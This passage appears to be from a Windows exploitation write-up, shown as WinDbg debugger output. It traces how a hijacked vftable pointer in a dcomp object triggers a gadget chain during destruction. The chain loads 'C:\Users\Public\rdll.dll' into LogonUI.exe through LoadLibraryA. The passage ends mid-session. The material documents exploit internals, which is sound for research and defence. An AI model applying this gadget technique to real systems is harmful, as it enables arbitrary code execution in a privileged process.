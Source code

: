 ```
0:002> u poi(00007ff9`2ac90fcf) l5
KERNELBASE!MapViewOfFile+0x9:
00007ff9`2b11bd79 488b442470      mov     rax,qword ptr [rsp+70h]
00007ff9`2b11bd7e 488364242800    and     qword ptr [rsp+28h],0
00007ff9`2b11bd84 4889442420      mov     qword ptr [rsp+20h],rax
00007ff9`2b11bd89 e812000000      call    KERNELBASE!MapViewOfFileExNuma (00007ff9`2b11bda0)
00007ff9`2b11bd8e 4883c448        add     rsp,48h
00007ff9`2b11bd92 c3              ret
```

The hook modifies the *vftable* function pointer of a `dcomp!DirectComposition::CSharedAllocation` object, that leads to gadget detonation during destruction of the object. The stack trace and gadgets for loading dll from `LogonUI.exe` process are as follows:
```
rax=0000000000000000 rbx=00000104cd1e4560 rcx=00000104c8b30720
rdx=0000000000000001 rsi=00000001006fe8a0 rdi=00000000ffffffff
rip=00007ff92769804c rsp=00000001006fe7f0 rbp=0000000000000001
 r8=00000001006fe8a0  r9=0000000000001000 r10=00000fff24ed3004
r11=0000010000000011 r12=00000104cd2a5dd0 r13=0000000000000000
r14=00000104cd2bd108 r15=00000104cd1e4560
iopl=0         nv up ei pl zr ac po cy
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000257
dcomp!Windows::UI::Composition::ExpressionAnimator::Destroy+0x2c:
00007ff9`2769804c 4883c108        add     rcx,8
0:015> u . l4
dcomp!Windows::UI::Composition::ExpressionAnimator::Destroy+0x2c:
00007ff9`2769804c 4883c108        add     rcx,8
00007ff9`27698050 488b01          mov     rax,qword ptr [rcx]
00007ff9`27698053 488b4010        mov     rax,qword ptr [rax+10h]
00007ff9`27698057 ff1553591500    call    qword ptr [dcomp!_guard_dispatch_icall_fptr (00007ff9`277ed9b0)]
0:015> dq 00000104c8b30720
00000104`c8b30720  00000104`c8b301c8 00000104`c8b301b0
00000104`c8b30730  00000000`00000003 00000000`00000000
00000104`c8b30740  00000000`00000000 00000000`00000000
00000104`c8b30750  00000104`cd2d8520 3f800000`00000008
00000104`c8b30760  00000000`00000000 00000000`00000000
00000104`c8b30770  00000000`3f800000 00000000`00000000
00000104`c8b30780  3f800000`00000000 00000000`00000000
00000104`c8b30790  00000000`00000000 00000009`3f800000
0:015> dps 00000104`c8b301c8
00000104`c8b301c8  00007ff9`2b84f050 user32!CBaseLocalHook<4>::`vftable'+0x18
00000104`c8b301d0  00000000`00000000
00000104`c8b301d8  00000000`00000000
00000104`c8b301e0  00000000`00000000
00000104`c8b301e8  00007ff9`2b473780 combase!HICON_UserFree64 [onecore\com\combase\proxy\proxy\transmit.cxx @ 1802]
00000104`c8b301f0  00000104`c8b301f8
00000104`c8b301f8  73726573`555c3a43
00000104`c8b30200  5c63696c`6275505c
00000104`c8b30208  6c6c642e`6c6c6472
00000104`c8b30210  00000000`00000000
00000104`c8b30218  00000000`00000000
00000104`c8b30220  00000000`00000000
00000104`c8b30228  00000104`c8b30000
00000104`c8b30230  00007ff9`2d270c70 KERNEL32!LoadLibraryAStub
00000104`c8b30238  00000000`00004000
00000104`c8b30240  00000000`00004000
0:015> da 00000104`c8b301f8
00000104`c8b301f8  "C:\Users\Public\rdll.dll"
0:015> ln poi(00007ff9`2b84f050+20)
(00007ff9`2b7e2780)   user32!_fnCOPYDATA   |  (00007ff9`2b7e2800)   user32!_fnPOWERBROADCAST
Exact matches:
0:015> dps 00000104`c8b301b0 l3
```